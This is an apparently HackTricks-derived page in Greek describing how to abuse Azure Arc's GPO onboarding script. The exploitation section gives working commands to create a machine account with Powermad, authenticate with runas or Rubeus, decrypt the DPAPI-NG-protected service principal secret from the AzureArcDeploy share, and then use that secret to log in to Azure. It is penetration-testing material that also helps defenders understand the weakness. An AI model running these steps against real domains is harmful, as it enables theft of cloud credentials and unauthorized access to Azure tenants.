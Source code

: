# Az - Arc ευάλωτο GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Αναγνώριση των Προβλημάτων

Το Azure Arc επιτρέπει την ενσωμάτωση νέων εσωτερικών διακομιστών (διακομιστές που ανήκουν σε τομέα) στο Azure Arc χρησιμοποιώντας τη μέθοδο Group Policy Object. Για να διευκολυνθεί αυτό, η Microsoft παρέχει ένα εργαλείο ανάπτυξης απαραίτητο για την έναρξη της διαδικασίας onboarding. Μέσα στο αρχείο ArcEnableServerGroupPolicy.zip, μπορούν να βρεθούν τα εξής σενάρια: DeployGPO.ps1, EnableAzureArc.ps1 και AzureArcDeployment.psm1.

Όταν εκτελείται, το σενάριο DeployGPO.ps1 εκτελεί τις εξής ενέργειες:

1. Δημιουργεί το Azure Arc Servers Onboarding GPO εντός του τοπικού τομέα.
2. Αντιγράφει το σενάριο onboarding EnableAzureArc.ps1 στο καθορισμένο κοινόχρηστο δίκτυο που έχει δημιουργηθεί για τη διαδικασία onboarding, το οποίο περιέχει επίσης το πακέτο εγκατάστασης των Windows.

Κατά την εκτέλεση αυτού του σεναρίου, οι διαχειριστές συστημάτων πρέπει να παρέχουν δύο κύριες παραμέτρους: **ServicePrincipalId** και **ServicePrincipalClientSecret**. Επιπλέον, απαιτούνται άλλες παράμετροι όπως ο τομέας, το FQDN του διακομιστή που φιλοξενεί το κοινόχρηστο, και το όνομα του κοινόχρηστου. Περαιτέρω λεπτομέρειες όπως το tenant ID, η ομάδα πόρων και άλλες απαραίτητες πληροφορίες πρέπει επίσης να παρέχονται στο σενάριο.

Ένα κρυπτογραφημένο μυστικό δημιουργείται στον κατάλογο AzureArcDeploy στο καθορισμένο κοινόχρηστο χρησιμοποιώντας κρυπτογράφηση DPAPI-NG. Το κρυπτογραφημένο μυστικό αποθηκεύεται σε ένα αρχείο με όνομα encryptedServicePrincipalSecret. Απόδειξη αυτού μπορεί να βρεθεί στο σενάριο DeployGPO.ps1, όπου η κρυπτογράφηση εκτελείται καλώντας το ProtectBase64 με $descriptor και $ServicePrincipalSecret ως είσοδοι. Ο περιγραφέας αποτελείται από τα SIDs της ομάδας Domain Computer και Domain Controller, διασφαλίζοντας ότι το ServicePrincipalSecret μπορεί να αποκρυπτογραφηθεί μόνο από τις ομάδες ασφαλείας Domain Controllers και Domain Computers, όπως σημειώνεται στα σχόλια του σεναρίου.
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Εκμετάλλευση

Έχουμε τις εξής συνθήκες:

1. Έχουμε διεισδύσει με επιτυχία στο εσωτερικό δίκτυο.
2. Έχουμε τη δυνατότητα να δημιουργήσουμε ή να αναλάβουμε τον έλεγχο ενός λογαριασμού υπολογιστή εντός του Active Directory.
3. Έχουμε ανακαλύψει μια κοινή χρήση δικτύου που περιέχει τον φάκελο AzureArcDeploy.

Υπάρχουν αρκετές μέθοδοι για να αποκτήσουμε έναν λογαριασμό μηχανής σε ένα περιβάλλον AD. Μία από τις πιο κοινές είναι η εκμετάλλευση του ποσοστού λογαριασμών μηχανών. Μια άλλη μέθοδος περιλαμβάνει την παραβίαση ενός λογαριασμού μηχανής μέσω ευάλωτων ACL ή διάφορων άλλων κακοδιαμορφώσεων.
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Αφού αποκτηθεί ένας λογαριασμός μηχανής, είναι δυνατή η αυθεντικοποίηση χρησιμοποιώντας αυτόν τον λογαριασμό. Μπορούμε είτε να χρησιμοποιήσουμε την εντολή runas.exe με την επιλογή netonly είτε να χρησιμοποιήσουμε pass-the-ticket με το Rubeus.exe.
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Έχοντας το TGT για τον λογαριασμό του υπολογιστή μας αποθηκευμένο στη μνήμη, μπορούμε να χρησιμοποιήσουμε το παρακάτω σενάριο για να αποκρυπτογραφήσουμε το μυστικό του service principal.
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Εναλλακτικά, μπορούμε να χρησιμοποιήσουμε [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Σε αυτό το σημείο, μπορούμε να συγκεντρώσουμε τις υπόλοιπες πληροφορίες που χρειάζονται για να συνδεθούμε στο Azure από το αρχείο ArcInfo.json, το οποίο είναι αποθηκευμένο στο ίδιο δίκτυο με το αρχείο encryptedServicePrincipalSecret. Αυτό το αρχείο περιέχει λεπτομέρειες όπως: TenantId, servicePrincipalClientId, ResourceGroup και άλλα. Με αυτές τις πληροφορίες, μπορούμε να χρησιμοποιήσουμε το Azure CLI για να αυθεντικοποιηθούμε ως ο παραβιασμένος service principal.

## Αναφορές

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
